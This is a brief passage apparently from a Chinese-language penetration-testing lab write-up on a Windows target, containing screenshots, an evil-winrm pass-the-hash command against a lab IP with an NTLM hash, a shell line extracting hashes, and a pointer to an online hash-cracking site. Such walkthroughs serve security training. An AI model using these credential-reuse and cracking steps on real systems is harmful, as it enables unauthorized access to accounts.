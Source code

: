 ![image-20250308130638427](./PG_win.assets/image-20250308130638427.png)

成功拿到相关凭证，直接PTH管理员失败了

```
evil-winrm -i 192.168.118.175 -u Administrator -H aad3b435b51404eeaad3b435b51404ee
```

![image-20250308130835514](./PG_win.assets/image-20250308130835514.png)

使用在线网站解密明文hash：https://crackstation.net/

```
cat hash.txt | cut -d : -f 4 > hash1.txt
```
